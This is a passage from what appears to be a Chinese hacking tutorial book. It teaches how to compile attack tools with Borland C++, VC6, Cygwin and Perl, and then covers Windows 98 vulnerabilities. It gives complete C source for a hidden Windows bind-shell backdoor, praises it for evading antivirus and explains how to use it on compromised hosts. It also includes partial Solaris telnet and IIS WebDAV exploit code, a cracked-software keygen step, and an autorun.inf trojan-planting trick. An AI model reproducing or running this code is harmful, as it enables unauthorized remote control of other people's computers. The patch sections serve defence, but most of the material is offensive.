// this should be high enough so that if a command like "dir" is executed, the command has a chance to complete.
// a lower value can be used if there is a low network latency.
#define SLEEP_TIME 500 // time in miliseconds to wait before reading data

void main(int argc, char* argv[])
{
    register int numbytes;
    int socklen;
    char *membuf;
    SECURITY_ATTRIBUTES security_attributes;
    STARTUPINFO startup_info;
    HANDLE StdOutputRead, StdOutputWrite, StdInputRead, StdInputWrite;
    WSADATA wsaData;
    SOCKET serverfd = INVALID_SOCKET, clientfd = INVALID_SOCKET;
    SOCKADDR_IN serversin, clientsin;

    // Socket initialization
    WSAStartup(MAKEWORD(1, 1), &wsaData);

    // Allocate the memory buffer it will use
    membuf = (char *)GlobalAlloc(GMEM_FIXED | GMEM_ZEROINIT, BUFSIZE);

    serverfd = socket(AF_INET, SOCK_STREAM, 0);
    memset(&serversin, 0, sizeof(serversin));
    serversin.sin_family = AF_INET;
    serversin.sin_port = htons(PORT);
    int val = 1;

    setsockopt(serverfd, SOL_SOCKET,
               SO_REUSEADDR, (const char *)&val, sizeof(val));

    bind(serverfd, (LPSOCKADDR)&serversin, sizeof(serversin));
    listen(serverfd, 0);

    // Set handles to inheritable
    security_attributes.nLength = sizeof(SECURITY_ATTRIBUTES);
    security_attributes.bInheritHandle = true;
    security_attributes.lpSecurityDescriptor = NULL;

start_server:
    // Setup input and output pipes for shell
    CreatePipe(&StdOutputRead, &StdOutputWrite, &security_attributes, 0);
    CreatePipe(&StdInputRead, &StdInputWrite, &security_attributes, 0);

    // Create a child process that will inherit the input and output
    // handles of the pipes and have a hidden window
    GetStartupInfo(&startup_info);
    startup_info.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    startup_info.wShowWindow = SW_HIDE;
    startup_info.hStdOutput = startup_info.hStdError = StdOutputWrite;
    startup_info.hStdInput = StdInputRead;
    CreateProcess(NULL, "cmd", NULL, NULL, true, 0, NULL, NULL,
        &startup_info, (PROCESS_INFORMATION *)&startup_info);

    CloseHandle(StdOutputWrite);
    CloseHandle(StdInputRead);

accept_new_client:
    // Wait for an incoming connection
    socklen = sizeof(clientsin);
    clientfd = accept(serverfd, (LPSOCKADDR)&clientsin, &socklen);

get_cmd_data: // read if there is data from cmd.exe
    Sleep(500);
    if (!PeekNamedPipe(StdOutputRead, NULL, 0, NULL, (DWORD *)&numbytes, 0))
        goto accept_new_client;
    if (numbytes == 0) goto get_client_data;
    if (!ReadFile(StdOutputRead, membuf, BUFSIZE, (DWORD *)&numbytes, NULL))
        goto accept_new_client;
    if (send(clientfd, membuf, numbytes, 0) <= 0) {
#ifdef USE_MINIMAL_SIZE
        goto start_server;
#else
        goto close_server;
#endif
    }

    goto get_client_data;

get_client_data: // read new user data and send it to cmd.exe
    numbytes = recv(clientfd, membuf, BUFSIZE, 0);
    if (numbytes <= 0) {
#ifdef USE_MINIMAL_SIZE
        goto start_server;
#else
        goto close_server;
#endif
    }

    if (!WriteFile(StdInputWrite, membuf, numbytes, (DWORD *)&numbytes, NULL)) {
#ifdef USE_MINIMAL_SIZE
        goto start_server;
#else
        goto close_server;
#endif
    }

    goto get_cmd_data;

#ifndef USE_MINIMAL_SIZE // this will cause memory leaks and use up open file descriptors
close_server:
    closesocket(clientfd);
    CloseHandle(StdInputWrite);
    CloseHandle(StdOutputRead);
    goto start_server;
#endif
}
```


图12

这是一个后门程序，相当于 `nc -l -p 9999 -e cmd.exe`。功能虽然简单，但是由于是自己编译的，所以不会被查杀，而 nc 早就已经被查杀了，在绝大多数的肉鸡上都是不能用的。这也是黑客为什么一定要学会编程的一个原因。用自己的后门总是最放心。下面就让我们来编译它。

和前面讲的方法一样，在命令行输入 `bcc32 telcmd.cpp` 回车，如图10，就可以了。

现在让我们来用一下我们自己编译的后门吧！！在命令行下输入 `telcmd` 回车，这时会停住不动，这是正常的，就像 nc 一样，如图12。重新开一个 DOS 窗口，输入 `netstat -an`，你可以看见，后门端口 9999 已经成功开启了，如图13！


图10

用 `dir` 命令可以看到生成的 `telcmd.exe` 后门程序，如图11。


图13

接着我们可以在命令行输入 `telnet 192.168.0.2（我的本机IP）9999`（后门开的端口），就会得到一个 Shell，如图14。登录成功！看到这里是不是很激动啊！快跟着做吧！打造自己的第一款黑客程序！如果有朋友想改换程序绑定的端口号，只要把程序源码中的 `#define PORT 9999` 这一句改成相应的端口号，如改成 `#define PORT 1688`，重新编译一次以后，程序绑定的就是 1688 端口了！


图11

图14

通过本节的学习，大家应该能够掌握 Borland C++ Builder 编译器的一些基本用法，对于编译现成的 BC 代码是没有问题了。但是要做到熟练地使用 Borland C++ Builder Compiler 这一工具，还不是一件容易的事情，还需要大家多学习、多实践，积累更多的经验才行。更希望大家从此努力学习 BC 编程思想（语法），真正走上 BC 编程的高手之路！

### 第二节 VC++ Builder 打造黑客工具

### 一、安装和配置

Visual C++ 也是一种 C/C++ 语言的集成开发环境（IDE）。上一节我们介绍了 Borland C++ Builder，其实它们的关系就是这样的。产生 VC 的最早根源应该追溯到 DOS 时代的 Borland 公司，当初 Borland 公司开发的 Turbo Pascal 和 Turbo C 让程序员们深刻感受到了把编辑器和编译器集成在一起的 IDE 是多么方便，微软也看到了这一优点，于是相继开发了 Quick C 和 Microsoft C/C++ 等多个 DOS 版本的 C/C++ 集成开发工具。随着 Windows 的不断成熟，微软决定放弃 DOS 下的开发工作，正式推出了 Windows 下的 Visual C++ 1.0。早期的 VC 功能并不怎么强大，使用起来也不方便，1.0 版和 1.5 版都是 16 位编程工具。VC 的革命性改变得益于 Windows 95 的推出，从 VC 2.0 开始，微软又放弃了 16 位编程，以后的 VC 都只用于 32 位编程开发。为了与 MFC 类库的版本号保持一致，微软跳过了版本 3，直接推出 VC 4.0。这个版本及修订版 4.2 的部分界面风格一直被保留到最新的 VC 6.0 中。从 VC4 到 VC6，VC 的各种功能不断增强，MFC 类库的内容也越来越丰富，从而使 VC 成为了一个功能非常强大的编程工具。

在 VC 发展的同时，Borland（现在叫 Inprise）也在不断改进它的 C/C++ 开发工具，并相继推出了 Borland C++ 和 C++ Builder 等产品（上一节我们首先介绍了 Borland C++ Builder）。Borland C++ Builder 当然也是一个非常优秀的开发工具，但是基于下面几点原因，使得 Borland C++ Builder 的发展受到了限制。首先，VC 的核心——MFC 类库已是事实上的业界标准，Borland 自己开发的类库也在向 MFC 看齐；其次，VC 与 Visual Studio 中的其它可视化开发工具紧密集成，可用于开发非常专业的 Windows、Web 和企业级应用程序；第三，VC 的联机帮助已被集成到 MSDN（微软开发者网络）库中去了，后者包含了微软大部分产品的技术文档和支持资料，内容相当丰富，是程序员不可多得的参考资料。并且 MSDN 库随着 Visual Studio 6.0 一起发行，真是相当方便。其实还有一个根本的原因就是 Windows 是 Microsoft 自己开发的，在自己的平台上开发编程工具当然是占尽先机了。

目前 VC 的最新版本是 VC6，集成在微软可视化开发套件 Visual Studio 6.0 中。上面讲到了 VC 功能非常强大方便，然而要熟练掌握 VC 真的还是很难，特别是在自学的情况下，要比 Borland C++ Builder 难得多。在这里我们也只是讲解如何使 VC 编译现成的程序代码，VC 作为编译工具是无比强大的，编出的可执行代码相当精简。

现在讲解如何安装 VC6.0。VC6.0 集成在套件 Visual Studio 6.0 中，先买回 Visual Studio 6.0 套件光盘，放入光盘会自动运行进入安装界面；也可以自己运行 setup.exe 安装程序，如图1。

点击“下一步”，选择“接受协议”，再点击“下一步”，输入产品 ID 号（光盘上有），然后选择安装项目。选择“自定义”后，点“下一步”，在这里可以选择所需要安装的组件，如图2。如果不需要 Visual Basic 和 Visual FoxPro，就把上面的勾去掉。接着点“继续”，勾上“注册环境变量”，如图3，再点“确定”。这时候程序会开始安装，进度条完成以后，点两次“确定”，就完成了 VC6.0 的全部安装过程。整个过程不是很难，相信绝大多数人不会有什么问题。VC6.0 的运行界面如图4。看到上面的画面就说明你已经成功安装了 VC6.0，并且运行正常。

### 二、编译实战

下面就进入正题，怎么用 VC6.0 来编译我们自己的黑客工具。

我们先看一下 Windows 模式下的 VC6.0 源程序如何编译。我们这里有一个 Windows 模式下实现 ping 功能的源程序 pinger.dsw（收录在光盘中），我们以这个代码为例来说明，双击 pinger.dsw 就可以用 VC 把它打开。

打开以后，我们就可以对它进行编译了。打开菜单“编译”，点“构建 pinger.exe”，如图5。接下来，VC 将自动对源代码进行编译、链接，如图6。

打开菜单“编译”，点“执行 pinger.exe”来运行 pinger.exe 程序，程序 pinger.exe 成功执行，如图7。

当然我们也可以直接运行 VC++ 的 release 目录中生成的 pinger.exe 文件来测试，如图8。默认情况下，VC 编译生成的可执行程序是放在 release 目录或者 debug 目录中的。

```text
Configuration: Pinger - Win32 Release
Compiling resources...
Compiling...
StdAfx.cpp
Compiling...
cbtext.cpp
HelpDialog.cpp
Pinger.cpp
PingerDlg.cpp
sockeng.cpp
F:\bc\test\pingersrc\sockeng.cpp(164) : warning C4244: 'initializing' : conversion from 'unsigned long' to 'unsigned short', possible loss of data
Generating Code...
Linking...
Pinger.exe - 0 error(s), 1 warning(s)
```

说明源程序编译、链接一切正常，顺利地生成了可执行文件 pinger.exe。接着我们可以通过……

图10

上面讲述了如何编译 Windows 模式下的 VC 源程序，下面我们讲解如何编译 DOS 模式下的 VC 源程序。现在的黑客程序绝大多数都是在 DOS 模式下使用的，所以学会编译 DOS 模式下的源程序是很重要的。

运行 VC6.0，打开“文件”菜单，点“新建”，选择 win32 console application，如图9，也就是建立一个 DOS 模式下的应用程序，工程名取 scan，点“确定”。在跳出的选择框中选“A simple application”，点“完成”，再点“确定”，就生成了一个 DOS 模式下的应用程序。

打开这个 scan.cpp 文件，得到代码如下：

```cpp
int main(int argc, char* argv[])
{
```

把 scan.cpp 文件原来的代码内容替换成我们要编译的 DOS 模式下的代码。我们这里用的是一个扫描器的代码（光盘中有收录），把代码复制下来，然后粘贴到 scan.cpp 的代码里，如图10。然后可以开始编译它，像前面一样，打开菜单“编译”，点“构建 scan.exe”，提示编译出错了，如图11，信息如下：

```text
Configuration: scan - Win32 Debug
Compiling...
StdAfx.cpp
Compiling...
scan.cpp
Linking...
nafxcwd.lib(thrdcore.obj) : error LNK2001: unresolved external symbol __endthreadex
nafxcwd.lib(thrdcore.obj) : error LNK2001: unresolved external symbol __beginthreadex
Debug/scan.exe : fatal error LNK1120: 2 unresolved externals
Error executing link.exe.
scan.exe - 3 error(s), 0 warning(s)
```

这是因为程序源代码采用了多线程，而 VC 没有进行多线程设置。

下面我们来进行设置，打开菜单“工程”，点击“设置”，弹出 Project Setting 对话窗，选择“C/C++”卡片项，选择“分类”中的 Code Generation 项。如图12，再把“Use run-time library”项的“Debug single-threaded”改为“Debug Multithreaded”，把单线程改为多线程，如图13。

然后点击“确定”，设置就完成了。接着再次进行编译，编译顺利通过，零错误、零警告，如图14，生成的 DOS 下运行的可执行程序 scan.exe 放在 Debug 目录中，如图15。通过对本书两个例子的学习，大家应该能够掌握如何用 VC 来编译有源代码的黑客工具了。是不是也没有那么难呢？不过还是那句话，这些都是基础知识，要成为真正的高手，还要靠大家自己不断锻炼。

## 第三节 Cygwin 环境打造黑客兵器

### 一、安装 Cygwin

UNIX 下的 GCC 开发能力是非常强大的，能对 C 和 C++ 进行预处理、编译、汇编。作为一名黑客，掌握 UNIX 编程可以说是必须的。网络上很多攻击工具的代码也都是在 UNIX 下编写的，要想使用它们来为我们服务，就必须有 UNIX 系统的机器。然而对于大多数菜鸟朋友和新手朋友来说，根本没有机会接触 UNIX 的机器，最多也是玩一下 Linux，我们最熟悉的还是 Windows 的机器。有没有两全其美的办法呢？让我们既能用 Windows 操作系统，又能使用 UNIX 下的程序工具。很高兴地告诉你，是可以的。那就是大名鼎鼎的 Cygwin，相信很多人都听说过。不过有的菜鸟可能不知道，还是让我们解释一下吧。

Cygwin 是 Cygwin 公司的产品，它提供了一个在 Windows 操作系统下的 UNIX 环境，它可以帮助我们把 UNIX/Linux 下的应用程序移植到 Windows 操作系统上，是一个功能强大的 Windows 平台下的 UNIX/Linux 开发平台。有了 Cygwin，我们便可以在 Windows 操作系统下编译使用 UNIX 平台下的各种黑客工具了。很激动吧，下面就让我们一起来学习怎么安装和使用 Cygwin 吧。

Cygwin 在网上很容易下载得到，精简压缩包也就 40 多 M（光盘中有收录）。解压后运行 setup.exe 文件，如图1。点击“下一步”，默认的是第一项“Install from Internet”（从 Internet 安装），我们这里应该选第三项“Install from Local Directory”（从本地目录安装），如图2。点“下一步”，选择好安装路径，一般默认就可以了。接着是选择安装项目。

再“下一步”是安装的源文件目录，也是不改动，点“下一步”就可以了。接着就是选择要安装的包，这一步很重要，因为 Cygwin 默认是不安装 GCC 编译工具的，所以要单击 Devel 包的 Default，把它变为 Install。如图3。因为在 Devel 包中带有 GCC 编译器包，如图4。

接下来就是开始安装复制文件了，如图5。复制完文件，点“完成”，程序会弹出消息窗“Installation Complete”，点“确定”，就成功完成了 Cygwin 的全部安装。

在桌面上会产生一个 Cygwin 的图标，双击 Cygwin 图标，我们就进入了 Cygwin 虚拟的 UNIX 环境平台了，如图6。

当前的工作目录在 `c:\cygwin\home\Administrator` 下面。在 Cygwin 平台里，你可以用常用的 UNIX 命令来对它进行操作，如：`ls`、`rm`、`mkdir`、`cat`、`pwd` 等。

### 二、编译实战

现在就让我们来学习，怎么用它来编译 UNIX 下编写的黑客工具源代码。下面是红客联盟的 Lion 编写的一个 Solaris 2.6、7、8 系统的 telnet 远程溢出代码文件 telnet.c，是一个相当经典的溢出工具，相信很多人都用过。

> Solaris 2.6, 7, and 8 /bin/login TTYPROMPT remote exploit.  
> Code by lion  
> lion@cnhonker.net  
> Welcome to HUC website http://www.cnhonker.com

```c
#include <stdio.h>
#include <string.h>
#include <netdb.h>
#include <unistd.h>
#include <errno.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <arpa/telnet.h>

#define BUFLEN 1024

char shellcode[] = "\x97\x97\x97\x97\x97\x97";

void usage(char *p)
{
    printf("Usage: %s [-u user] [-p port] <-h host>\n\n", p);
    printf("    -u: login username (default: bin), try \"root\" :)\n");
    printf("    -P: port to use (default: 23)\n\n");
    printf("\n");
    exit(0);
}
```

代码省略（光盘中有收录）。把 telnet.c 源程序文件复制到 `c:\cygwin\home\Administrator` 下面，如图7。然后在 Cygwin 平台下用 `ls` 查看，就可以看到这个 telnet.c 文件了，如图8。

可以看到 telnet.c 文件存在，现在我们可以用 GCC 进行编译了。在命令行输入：`gcc -o sunos_telnet telnet.c`，回车，如图9。

GCC 的用法简介：

```text
gcc [ option | filename ]...
```

其中 option 为 gcc 使用时的选项，而 filename 为欲以 gcc 处理的文件。

- 常用的选项：`-c` `-S` `-E` `-o file` `-pipe` `-v` `-x language`
- `-c` 只激活预处理、编译和汇编，也就是只把程序做成 obj 文件。
- `-S` 只激活预处理和编译，就是指把文件编译成为汇编代码。
- `-E` 只激活预处理，这个不生成文件，需要把它重定向到一个输出文件里。
- `-o` 指定目标名称，缺省时 gcc 编译出来的文件是 a.out。例子：`gcc -o hello.exe hello.c`。
- `-x language filename` 设定文件所使用的语言，使后缀名无效，对以后的多个文件都有效。

篇幅所限只介绍这些，详细的使用请读者自行查阅相关书籍。

虽然有警告，但编译还是成功了。用 `ls` 命令查看一下 `sunos_telnet.exe` 是否生成。呵呵，可执行文件 `sunos_telnet.exe` 顺利生成，如图10。

我们用一下看，在命令行输入：`./sunos_telnet.exe`。（记住在 UNIX 下运行当前目录文件要加“./”），如图 11，成功运行，是不是很酷啊！

而且 Cygwin 编译出来的 EXE 可执行程序，还可以直接在 Windows 下运行，不过需要把 `cygwin1.dll` 动态连接库文件和编译出来的可执行程序放在同一目录下才行。`cygwin1.dll` 文件在 Cygwin 的 bin 目录下有，如图 12。

比较一下，是不是和你以前下载别人现成编译好的 `sunos_telnet.exe` 一样！你有能力的话还可以改进一下代码，重新编译。


图 12

我们在 Windows 的 cmd.exe 下运行一下看看，如图 13。

图 13

通过本节的学习，大家可能感觉到了 Cygwin 真是一个方便、强大的编程工具。祝愿大家以后能熟练地使用它来为自己编译程序，走上 UNIX 编程的道路。对于 gcc 的具体用法在这里就不再讲述，网上有很多教程，大家也可以用 `gcc -help` 来获得帮助。

### 第四节 Perl 编译器打造黑客工具

### 一、安装 Perl 解释器

Perl 语言是一门古老的语言，Perl 是英文 Practical Extraction and Report Language 的缩写。Perl 最早用于 UNIX 环境下的编程，后来被移植到了 Windows 平台上。它既具有高级语言（如 C）的强大功能，又具有像脚本语言一样的方便灵活性。

与脚本语言一样，Perl 代码不需要编译器和链接器就可以运行。当然你也可以像高级语言一样，把它编译成可执行代码。正因为 Perl 语言这种功能强大和语法灵活的特性，使得它备受黑客们的青睐，特别是编写一些短小的功能性程序（如：溢出工具等），更能显示出它的优势性。所以 Perl 也是真正的黑客所必须要了解和掌握的一门语言之一，接下来的本章就给大家介绍这方面的内容，重点还是放在如何使用上面，不在具体语法的讲解。

在 Windows 下要使用 Perl 语言，需要安装 Perl 语言解释器才行。下面我们开始进行安装，用的是现在最常用的 `ActivePerl-5.6.1.628.msi`（光盘有收录），双击安装文件，如图 1，点“Next”，选择第一项“接受许可证协议”，点“Next”，选择好要安装的内容和路径，如图 2。我们这里是把它安装在 `D:\Perl` 目录下，你也可以把它安装在其他地方，接着点“Next”，继续点“Next”，点“Install”。现在开始复制安装文件了，如图 3，最后点“Finish”，就完成了整个安装过程。


图 2


图 1


图 3

### 二、解释执行 Perl 代码

现在我们可以进入 `d:\perl\bin`，可以看到 Perl 的运行文件了。如何用 Perl 解释器来解释执行 Perl 语言编写的程序呢？很简单，只要在命令行下输入：`perl 程序代码`。我们来运行一个测试程序：打印两句话，如图 4。可以看到程序成功运行，说明 Perl 工作正常。


图 4

### 三、安装 EXE 编译工具

接着我们来说说如何把 Perl 语言编译成为可独立运行的可执行文件，因为总是用 Perl 解释器来解释执行总是不那么方便，如果没有解释器就不能运行了。这就需要我们安装一个扩展的 Perl 编译工具包 `PDK-5.1.0.msi`（收录在光盘中）。下面我们来看如何安装。

双击 `PDK-5.1.0.msi`，如图 5，点“Next”，选择第一项“接受许可证协议”；接着再点击“Next”，选择好安装的项目和安装路径，如图 6。再点“Install”，会出现安装文件复制进度条，等进度条完成后安装完程序，整个 `PDK-5.1.0.msi` 包的安装就完成了。基本上和前面 Perl 的安装差不多，但记住一定要先装 Perl 解释器再安装 `PDK-5.1.0.msi` 包，否则安装是不能进行的。


图 5


图 6


图 7


图 8

我们再进入 `d:\perl\bin` 目录，会发现多了不少的文件，如图 7，这就是 `PDK-5.1.0.msi` 扩展包安装进去的文件。其中的 `perlapp.exe` 可执行文件就是用来编译 Perl 语言的编译器。我们来用一下看看，如图 8。

提示说没有有效的认证注册，原来 `PDK-5.1.0.msi` 扩展包是需要注册的，不要紧，我们有破解的注册机（一同在光盘中），运行注册机 `keygen.exe`，如图 9。

名字和 E-mail 可以随便输，在 Number of CPUs 里输入 1，然后点“Generate”按钮，弹出注册被添加的消息窗，如图 10，就说明注册成功了。再运行一下 `perlapp.exe` 看看，出现了帮助提示，如图 11，说明破解成功了，`perlapp.exe` 编译器可以正常使用了。


图 9


图 10


图 11

### 四、编译实战

接下来，我们用一个实例来说明如何使用 `perlapp` 编译器来编译 Perl 语言的可执行文件。下面是一个安全焦点的 WebDAV 漏洞远程溢出漏洞的经典代码，是用 Perl 语言写成的：

```perl
#!/usr/bin/perl
#use call ebx as the ret
#tested on CHINESE win2k sp2&sp3
#by isno@xfocus.org

use IO::Socket;
print "IIS WebDAV overflow remote exploit by isno@xfocus.org\r\n";
if ($#ARGV<0){die "Usage: webdavx3 target\r\n";}
$host = @ARGV[0];
if ($#ARGV == 0)
{
    $port = 80;
}
else
{
    $port = @ARGV[1];
}

$decode =
"%u5390%u665e%u66ad%u993d%u7560%u56f8%u5656%u665f".
"... ..."
"... ..."
```

先把它保存为 `webdavx3.pl` 文件（光盘中有），放在 `d:\perl` 目录下，我们先解释执行一下看看效果，如图 12。运行正常，现在我们来看看怎么把它编译成可执行文件。其实非常简单，我们只要在命令行输入：`perlapp webdavx3.pl`，回车，就会自动生成一个 `webdavx3.exe` 可执行文件，如图 13。


图 12


图 13


图 14

运行一下 `webdavx3.exe` 看看效果，如图 14，不错吧！是不是和你从网络上下载的 `webdavx3.exe` 一样。

通过本节的学习，大家应该学会使用 Perl 来编译程序了吧。还没有跟着做的朋友，赶快自己动手实践一下吧，相信它能给你带来惊喜。也希望朋友们能学好这一门古老的语言，把它发扬光大，写出更好的程序代码来。

**本章结束语：**本章主要讲述了 Borland C++ Builder、Visual C++、Cygwin、Perl 等黑客比较常用的四种编译器的安装和使用方法，力求通俗易懂，尽量详细，目的是让大家在看完之后马上就能亲自动手编译出自己的黑客工具来，体验一种成就感，去除对编程的畏惧。本章并没有涉及具体的编程方法（语法），只是一个编程初学者的基础教程，要成为真正的编程高手，还需要大家今后的刻苦钻研，不断磨练。愿今天的菜鸟们，成为明天的编程高手！

## 神功秘笈

## 绘画版

## 新世纪


## 第五章 制敌彻底

## 经典漏洞攻防

### 第一节 Windows 系统漏洞攻防

Windows X 是由美国微软公司开发的一系列界面友好、使用简便的操作系统；主要版本包括：Windows 95/98、Windows ME、Windows NT/2000、Windows XP，以及最新推出的 Windows 2003。

其中 Windows 95/98 和 ME 主要针对个人用户和小型家庭网络用户，虽然网络功能强大、操作简单，但其安全机制薄弱，而且对多用户没有权限之分。Windows NT 是微软公司正式的服务器操作系统，它的安全性高，采用新型的微内核设计，并且对不同的登录用户有严格的权限限制，当时有很多的网络服务器采用了这个操作系统。Windows 2000 则是在 Windows NT 内核结构上开发的并集成 Windows 98 易用性的适合个人、商业用户的操作系统，它简单易用、管理简单、功能强大，是比 Windows NT 更可靠和更安全的操作系统，也是目前世界上使用最多的服务器操作系统之一。

Windows XP 基本面向家庭用户，是“最好”的个人操作系统，它具有稳定、酷炫、简单。与前几个操作系统相比，XP 在多媒体、通信等方面进行了许多技术改良，稳定是 XP 最大的特点，不像 Windows 98 那样容易死机。Windows Server 2003 于 2003 年 4 月推出，它被微软称为“性能最高、质量最高的 Windows Server 操作系统”，由于其发布时间尚短，其性能特别是安全性能是否能像微软声称的那样，我们拭目以待！

上面我们了解了 Windows X 的发展，目前世界上个人操作系统领域 Windows X 个人操作系统大致占 95%，在服务器操作系统领域，Windows X 操作系统大致占 85%，并且这两个比重还在呈上升趋势，所以可以说 Windows X 操作系统是当前操作系统的主流。而操作系统是计算机的灵魂，是网络的运行平台，想要成为一个“现代”黑客，却对主流操作系统及其漏洞不能清楚地掌握，那是不可想象的！本章主要内容介绍的就是 Windows 系统的重大漏洞及其攻防过程，演示录像和相关工具收集在本书配套光盘中。

### 一、Windows 98 漏洞攻防

岁月无情，“长江后浪推前浪”，随着 Windows XP 的推出，曾经“一统天下”的 Windows 98 正在不知不觉中渐渐离我们而去。但是作为一个优秀的个人操作系统，它显示了顽强的生命力，即使到了今天，还是有许多个用户、单位和学校仍在使用 Windows 98 系统。本节简单地介绍一些 Win98 比较重要的漏洞，使用 Win98 的用户也应该可以从中学到一些东西。

用 `nbtstat` 等命令，就可以获取远程主机的计算机名、工作组等大量信息，如图 1；如果使用网络刺客等扫描器，那更是可以快速地获取一个网段内的 Windows 系统的共享资源等信息，如图 2，这无疑为网络中的计算机增加了不少危险性。

### 1. NETBIOS 信息泄露漏洞攻防

（演示录像、相关工具见光盘）

NetBIOS（网络基本输入/输出系统）是普通使用的一种网络协议，使用户软件能使用局域网的资源。自从诞生，NetBIOS 成为许多其他网络应用程序的基础。NetBIOS 经扩展，允许程序使用 NetBIOS 接口来操作 IBM 令牌环结构，它提供给网络程序一套方法来相互通信及传输数据。它的目的是把程序和任何类型的硬件属性分开，也使软件开发员可以免除以下负担：开发网络错误修复、底层信息寻址和路由，尤为适用于小型局域网。Windows 系统中的 NetBIOS session service 端口是 139，而且不单是 Win98，其实 Win NT/2000 也存在 NETBIOS 信息泄露问题。


在网络发展史上，NetBIOS 算得上是历史悠久了。因为它占有的资源少，传输效率高，尤为适用于小型局域网，实现网络中各资源的共享。但是对于互联网用户来说，NetBIOS 则是一大网络安全隐患。因为 NetBIOS 的开放性，攻击者很容易利用它来获取计算机的名字以及共享资源等有用信息，为下一步入侵做准备。只要在 DOS 下……

**解决方法：**由于 NETBIOS 主要在局域网起作用，所以对一般 Win98 单机用户来说最好关闭 139 端口。关闭方法：打开“开始”→“设置”→“控制面板”→“网络”，在弹出的对话框中删除“Microsoft 网络用户”，启用“Microsoft 友好登录”就行了，如图 3。

### 2. 黑客密码校验漏洞攻防

（演示录像、相关工具见光盘）

上面我们已经介绍 NETBIOS 信息泄露漏洞，但通过 NETBIOS 得到了一些共享资源信息究竟有什么用呢？别急，接下来我们再介绍一个 Win98 的漏洞，通过这个漏洞，由 NetBIOS 得到的共享资源信息马上就会有用武之地了。

**漏洞描述：**此漏洞就是 Windows 98 共享资源密码校验漏洞。由于安全设计缺陷，微软 NETBIOS 协议的口令校验服务端在对客户端的口令进行校验时是以客户端发送的长度数据为依据的，并且密码在 NETBIOS 中只判断密码数据中的第一个字节，如果这个字节匹配就通过了验证，所以远程用户访问受保护的共享资源不需要输入完整密码。这样远程用户很容易通过猜测这个第一个字节来进入系统。黑客们利用这个漏洞开发了许多瞬间破解 Win98 共享资源密码的小工具，其中最著名的是 `PQwak2.exe`。

**漏洞测试：**先可以用网络刺客来测试开有共享资源的主机，然后打开 `PQwak2.exe`，填入共享机子的 IP 和共享资源名后，点击“crack”，共享密码马上被破解出来了，如图 4。

上面我们学习了利用 Windows 98 共享密码校验漏洞来取得共享访问权！但拿到共享访问权后能做些什么呢？只用来看看文件吗？当然不是！黑客的野心和伎俩并不止于此，在获取共享资源名后，黑客会利用已经控制的共享进一步控制整个系统。比如黑客控制的共享是安装操作系统的 C 盘，而且拥有可写“完全权限”，那要控制系统就易如反掌，只要上传个木马或后门程序到 `C:\WINDOWS\Start Menu\Programs\启动` 文件夹下，或者直接编辑对方主机上的 `win.ini` 等系统文件，等下次系统启动时运行你的木马或后门就可以了。

如果是其他的 D、E、F 等盘完全共享的主机，比如某主机有一个完全共享 D 盘，黑客破解其共享密码后，就会先用记事本写一个 `autorun.inf` 文件：

```ini
[autorun]
open=muma.exe /autorun
```

然后把这个 `autorun.inf` 文件和一个运行后会自动删除原文件的木马 `muma.exe` 一起上传到 D 盘的根目录下面。这样当有人双击这个 D 盘时，就不再是打开这个盘的根目录，而是运行 `muma.exe` 木马。这样黑客就实现了让用户帮忙运行木马的目的，进而控制整个系统。此外还可以用 exe 合并器把木马程序与原来盘上已有的程序合并，这样用户在运行该程序的时候也就运行了木马。


图 4

**解决方法：**这个漏洞使得 Win98 的共享验证形同虚设，所以还在使用 Win98 的朋友要注意了，赶快去打上补丁。这个漏洞的补丁下载地址：

http://download.microsoft.com/download/win98SE/Update/11958/W98/EN-US/273991USA8.exe

### 3. IGMP 拒绝服务攻击漏洞

（相关工具见光盘）

**漏洞描述：**利用无效 IGMP 头数据包能对 Win98 发动拒绝服务攻击，能迅速导致 Win98 崩溃死机。IGMP 即 Internet 组管理协议，是用于让一个物理网络上的所有系统知道主机当前所在的多播组。Windows 98 系统对 IGMP 碎片包的处理存在漏洞，IGMP 碎片包可能导致 TCP/IP 协议栈不正确地访问无效内存，最终系统蓝屏崩溃。

**漏洞测试：**此漏洞最好的测试工具是 IPhacker，这是一个老牌攻击工具，但对于没打过补丁的 Windows 98 来说，其攻击效果是百分之百！打开 IPhacker，在“WIN98”的 IGMP 攻击中填入要测试的 Win98 机子的 IP 地址，然后点击“测试”就开始攻击了，如图 5。一般只要攻击一次，对方的 Win98 就会蓝屏崩溃到死机，其在局域网的攻击效果最为显著；如果在互联网上，由于路由等过滤而攻击不能成功。大家所熟悉的工具“Winnuke”也属于同类原理中的一例。


图 5

**解决方法：**Win98 系统是比较脆弱，但其实这个漏洞是 1999-07-03 公布的，按理说早就可以杜绝这个漏洞了，可事实上到今天为止，仍在使用 Win98 的许多主机都还没有打上这个漏洞的补丁。此补丁下载地址：

```
http://www.microsoft.com/windows98/
downloads/corporate.asp
```

### 4. ICMP 拒绝服务攻击漏洞

（相关工具见光盘）

**漏洞情况：**由于在早期阶段，路由器对包的最大尺寸都有限制，许多操作系统对 TCP/IP 栈的实现在 ICMP 包上都规定 64KB，并且在对包的标识头进行读取之后，要根据该标识头里包含的信息来为有效载荷生成缓冲区；当产生畸形的、声称自己的尺寸超过 ICMP 上限的包（即载荷尺寸超过 64K 上限）时，就会出现内存分配错误，导致 TCP/IP 堆栈崩溃，致使接收方当机。Windows 也有此拒绝服务漏洞，对 Win98/NT/Win2K 都有影响。当如上系统受到非法碎片包、包含不合法碎片 ICMP ECHOs（pings）和 UDP packets 攻击时，Windows 系统会拒绝服务，直至 CPU 占用率达到 100%，最后系统崩溃。现在网络上很多号称能够致使系统死机的软件都是基于这个原理。

> ICMP 的全称是 Internet Control Message Protocol（网间报文控制协议），它是 IP 协议不可分割的一部分，它用来提供错误报告，一旦发现各种错误类型就将其返回源主机。我们平时最常见的 ping 命令就是基于 ICMP 的服务。

**漏洞测试：**网上的 ICMP 攻击软件很多，Winnuke、DeathPing 等等，这些攻击软件可以轻易地使没打过补丁的 Windows 98 的 Internet 连接断线或者死机。打开 Winnuke，在 IP address 中输入要测试攻击的 Win98 的 IP 地址，如图 6，然后点击“测试”就开始攻击了，重复攻击几次后目标机就会断线或死机。


图 6

**解决方法：**这也是个很老的漏洞，却依然非常有效。仍在使用 Win98 的用户应打上此漏洞的补丁，补丁下载地址：

```
http://support.microsoft.com/support/
kb/articles/Q154/1/74.asp
```

### 5. CON\CON 死机漏洞

（演示录像、相关工具见光盘）

